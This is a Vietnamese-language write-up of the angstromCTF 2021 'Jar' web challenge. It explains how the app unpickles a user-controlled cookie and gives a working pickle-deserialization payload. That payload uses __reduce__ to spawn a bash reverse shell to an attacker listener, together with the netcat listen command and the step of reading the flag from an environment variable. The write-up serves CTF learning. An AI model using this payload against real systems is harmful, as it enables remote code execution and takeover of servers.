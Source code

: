 Jar
===
**Category:** Web

**Author:** kmh

**Point:** 
### Desscription
- My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.
- Site: `https://jar.2021.chall.actf.co/`
- Source: `jar.zip`

### Overview
Site cho chúng ta input vào `item` và sau khi add item thì nó sẽ hiện thị ra site và kiểm tra cookie thì thấy nó cũng được set cho cookie.
Chúng ta được author cung cấp cho một file source là `jar.py` mở ra để phân tích thì thấy flag ở biến environment (FLAG). Có 3 route đó là `/pickle.jpg` hiện thị ra hình ảnh `pickle.jpg`, `/` là trang chủ có function jar() và trong function này có một chỗ chúng ta có thể control được đó là cookie `contents`, chúng ta có thể thay đổi nó thành giá trị bất kì và chương trình sử dụng pickle.loads() để gán cho `items`. Cuối cùng sẽ return về form html kèm theo item ở vị trí radom
`/add` ở route này thì chúng ta vẫn tiếp tục có thể control được cookie `contents` và có thêm là `items` sẽ được append từ `form['item']` là cái mình input ở ngoài site. Sau đó sẽ set cookie `contents` bằng pickle.dumps(items). items chính là một array còn item là từng phần tử trong array đó.

### Solution
Về vấn đề pickle thì đã được document của python đề cập đến việc sử dụng pickle một cách không cẩn thận thì có dễ dẫn đến việc RCE. Ở đây việc set có cookie `contents` sử dụng pickle.loads và pickle.dump nên chúng ta có thể tấn công theo kiểu `pickle deserialization`.
Vì vậy ở đây chúng ta tạo một class sử dụng `__reduce__` để RCE nó. Khi mà có pickled thì method `__reduce__` sẽ được gọi.

##### Payload
```py
import requests,pickle,builtins,os,base64

url = 'https://jar.2021.chall.actf.co/add'

class SerializedPickle(object):
    def __reduce__(self):
        return(os.system,('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"',))

print(base64.b64encode(pickle.dumps(SerializedPickle())))
```
Bên server của mình nhập `nc -lvp PORT` để listen
Sau khi tạo ra chuỗi base64 thì mình sẽ thay vô cookie contents và f5. Sau đó bên server chỉ cần `echo $FLAG` vì flag ở biến environment như trong code đã đề cập tới